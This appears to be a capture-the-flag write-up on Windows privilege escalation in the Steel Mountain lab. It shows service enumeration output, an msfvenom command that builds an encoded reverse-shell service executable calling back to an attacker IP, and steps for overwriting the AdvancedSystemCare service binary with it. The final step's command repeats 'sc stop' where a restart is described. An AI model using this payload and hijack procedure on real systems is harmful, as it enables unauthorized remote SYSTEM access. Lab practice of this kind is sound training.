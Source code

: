 ```
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
Name           : AWSLiteAgent
Check          : Unquoted Service Paths

...

ServiceName                     : LiveUpdateSvc
Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files


```

Lol who even use Iobit products anymore??

```
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.8.4.19 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
[sudo] Mot de passe de nairolf32 : 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: ASCService.exe
```

Note how I named the file `ASCService.exe` (and not Advanced.exe in the misleading exemple from the hint)

because that is actually the name of the service binary we need to overwrite for our `unquoted service` attack

you can use whatever command to replace/move it to the right path (`copy` command ftw)

Oh yeah you better stop the service before replacing

`sc stop AdvancedSystemCareService9`

And when you are done just prepare another listenner and restart your malicious service

`sc stop AdvancedSystemCareService9`
